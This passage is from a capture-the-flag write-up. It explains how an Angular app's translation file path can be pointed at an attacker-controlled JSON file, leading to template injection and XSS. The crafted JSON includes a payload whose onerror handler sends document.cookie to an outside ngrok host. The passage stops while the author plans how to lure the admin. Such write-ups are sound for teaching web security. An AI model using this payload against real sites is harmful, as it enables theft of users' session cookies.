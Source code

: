 Looking at the prefix and suffix, I've noticed that there's room for path manipulation, this is very similar to Client-Side Directory Traversal vector, except we don't need to traverse this time. 

The logic is simple, if we choose **en** as language, it will fetch **/en.json**, this means we can also use our main domain where we are controlling the JSON file. Below is en.json's contents

```json
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "Hi {{name}}",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```

# Client-Side Template Injection

Looking closely at **VARIABLE_REPLACEMENT**, we notice that it's rendering the **name** into Angular's templates. By modifying the **NG_TRANSLATE_LANG_KEY** into my ngrok instance, I got a hit. 

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [26/May/2023 03:27:30] code 404, message File not found
127.0.0.1 - - [26/May/2023 03:27:30] "GET /a.json HTTP/1.1" 404 -
```

Our goal is simple now, create a crafted json file & use **Legacy's** XSS (since this is a self one) & WIN! 

Below is my crafted JSON file

```JSON
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "x <div><style><style/><img src=x onerror=\"fetch('https://NGROK/?'+document.cookie)\"/>",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```


By visiting the page, I recieved a callback with my own cookies, so now we need to figure out a way where we can have the admin to visit our page. Because I had a working payload in **Legacy**, it was a matter of forcing the browser to create a new cookie pointing to **legacyversion2-1.ctf.hackaplaneten.se**. 
